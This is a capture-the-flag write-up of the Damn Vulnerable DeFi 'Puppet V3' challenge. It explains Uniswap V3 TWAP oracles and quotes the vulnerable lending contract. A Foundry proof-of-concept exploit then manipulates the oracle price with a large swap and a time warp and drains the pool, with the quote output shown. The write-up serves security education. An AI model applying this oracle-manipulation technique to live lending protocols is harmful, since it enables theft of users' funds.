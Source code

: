 ```yaml
---
title: Damn Vulnerably DeFi - Puppet V3 Solution 
date: "2023-03-21T23:46:37.121Z"
---
```

My solution for the challenge Puppet V3 & understanding **Uniswap V3** prices on a time weight average.

**First, lets discuss the key points to understand how to break this challenge:**

This challenge introduced Uniswap v3 prices calculation and how it now tracks prices at the end of a block, after the last trade of a block. This removes the possibility of in-block price manipulations, (flashloan attacks) ;). And it does this by tracking observations, basically the last price event info.

Note: this challenge was a nice opportunity to contribute to the [Foundry version of the Damn Vulnerable Defi challenges](https://github.com/nicolasgarcia214/damn-vulnerable-defi-foundry) originally created by the Open Zeppelin team. I have proposed my update to add this challenge in Foundry.
<br>
[<img src="./uniswapv3-devBook.png">](https://uniswapv3book.com/)

- Observations are slots that stores a recorded prices, timestamp, and activation flag.
- Cardinality, number of activated observations.
- TWAP are used mainly to support calculation of prices in periods where there were no observations.

## Puppet v3

[<img src="./puppetv3.png">](https://www.damnvulnerabledefi.xyz/challenges/puppet-v3/)


**Now Let's take at the victim contract**
We have a pool where users can borrow its Token in exchange for providing 3 times WETH, the pool uses uniswapV3 TWA to fetch and calculate the token price with respect to eth based on the last observation.
`````
pragma solidity =0.7.6;

contract PuppetV3Pool {
    uint256 public constant DEPOSIT_FACTOR = 3;
    uint32 public constant TWAP_PERIOD = 10 minutes;

    IERC20Minimal public immutable weth;
    IERC20Minimal public immutable token;
    IUniswapV3Pool public immutable uniswapV3Pool;

    mapping(address => uint256) public deposits;

    event Borrowed(address indexed borrower, uint256 depositAmount, uint256 borrowAmount);

    constructor(IERC20Minimal _weth, IERC20Minimal _token, IUniswapV3Pool _uniswapV3Pool) {
        weth = _weth;
        token = _token;
        uniswapV3Pool = _uniswapV3Pool;
    }

    /**
     * @notice Allows borrowing `borrowAmount` of tokens by first depositing three times their value in WETH.
     *         Sender must have approved enough WETH in advance.
     *         Calculations assume that WETH and the borrowed token have the same number of decimals.
     * @param borrowAmount amount of tokens the user intends to borrow
     */
    function borrow(uint256 borrowAmount) external {
        // Calculate how much WETH the user must deposit
        uint256 depositOfWETHRequired = calculateDepositOfWETHRequired(borrowAmount);

        // Pull the WETH
        weth.transferFrom(msg.sender, address(this), depositOfWETHRequired);

        // internal accounting
        deposits[msg.sender] += depositOfWETHRequired;

        TransferHelper.safeTransfer(address(token), msg.sender, borrowAmount);

        emit Borrowed(msg.sender, depositOfWETHRequired, borrowAmount);
    }

    function calculateDepositOfWETHRequired(uint256 amount) public view returns (uint256) {
        uint256 quote = _getOracleQuote(_toUint128(amount));
        return quote * DEPOSIT_FACTOR;
    }

    function _getOracleQuote(uint128 amount) private view returns (uint256) {
        (int24 arithmeticMeanTick,) = OracleLibrary.consult(address(uniswapV3Pool), TWAP_PERIOD);
        return OracleLibrary.getQuoteAtTick(
            arithmeticMeanTick,
            amount, // baseAmount
            address(token), // baseToken
            address(weth) // quoteToken
        );
    }

    function _toUint128(uint256 amount) private pure returns (uint128 n) {
        require(amount == (n = uint128(amount)));
    }
}
`````
**Validation Constraints**
- Block timestamp must not have changed too much, no more than 115 sec.
- Player has taken all tokens out of the pool


**Attack Brainstorm**

- Right away I saw the pragma version and think on overflow/underflow anything, but not so fast Tincho has protected well even its numbers down-casting with the last function of the contract.
- The borrow function seems simple and updates correctly before transfer out, so I won't spend much time trying to game this one.
- I see the hardcoded **TWA time 10** and seems suspicious to me, docs: `Number of seconds in the past to start calculating the time-weighted observation`
- Then the required eth calculation function is using the oracle, if we can someway get the oracle to return a very cheap price, the ETH can drain easily.
    - So we take a look at user inputs for these one and maybe the passing `type(uint256).max` can reset the price to zero. But the oracle will revert on underflow, so not here... :(
- Now, we could swap all of our DVT token for as much WETH token as possible
    - this swap will lower the pool's WETH reserves in comparison to the DVT, but the oracle is protected against same block manipulations, so we need another transaction that will use this last **observation** of the price.
    - Now, I remember that on the book it's mentioned that anyone can change the next cardinality of the observations, and since we know in this case we are the only ones trading in this pool, we might as well set the cardinality to take the next time only 2 observations.
    - `uniswapPool.increaseObservationCardinalityNext(2)` at the beginning of the challenge setUp we see that Tincho set this to 40 after init the pool.
    - If this works, we could bypass the TWA at which the contracts pull it's prices. So we must do a set of transactions within 10 minutes, or in other words we will simulate short-term volatility.
    - Ideally we could `warp` the vm or (increase block timestamp) with foundry to swap and fast forward within the next 100 sec, so the oracle will pick the last observation which left the price of the token at a very discount rate.


### POC Solution

For the complete set up and solution code please refer to my foundry repo [here](https://github.com/danielles0xG/damn-vulnerable-defi-foundry/blob/master/test/Levels/puppet-v3/PuppetV3.t.sol).
````
  function testExploit() public {
       
        // Swap all out dvt for as much weth possible
        dvt.approve(address(uniswapRouterAddress), type(uint256).max);
        ISwapRouter(uniswapRouterAddress).exactInputSingle(
            ISwapRouter.ExactInputSingleParams(
                address(dvt),
                address(weth),
                3000,
                address(attacker),
                block.timestamp,
                ATTACKER_INITIAL_TOKEN_BALANCE, // 110 DVT TOKENS
                0,
                0
            )
        );

        // fast forward 100 seconds
        vm.warp(block.timestamp + 100);
        uint256 quote = lendingPool.calculateDepositOfWETHRequired(LENDING_POOL_INITIAL_TOKEN_BALANCE);
        weth.approve(address(lendingPool), quote);

        // Drain the pool
        lendingPool.borrow(LENDING_POOL_INITIAL_TOKEN_BALANCE);
        validation();
    }
````
Note that if we don't increase the timestamp the observation will remain in the first slot, meaning the 3x ratio price.

````
        uint256 quote1 = lendingPool.calculateDepositOfWETHRequired(LENDING_POOL_INITIAL_TOKEN_BALANCE);
        console.log("quote: ", quote1); //   quote:  3000000000000000000000000

        vm.warp(block.timestamp + 100);

        uint256 quote = lendingPool.calculateDepositOfWETHRequired(LENDING_POOL_INITIAL_TOKEN_BALANCE);
        console.log("quote: ", quote); //    quote: 1135374091135900626
````

**Thanks and I hope you find value in this post.**

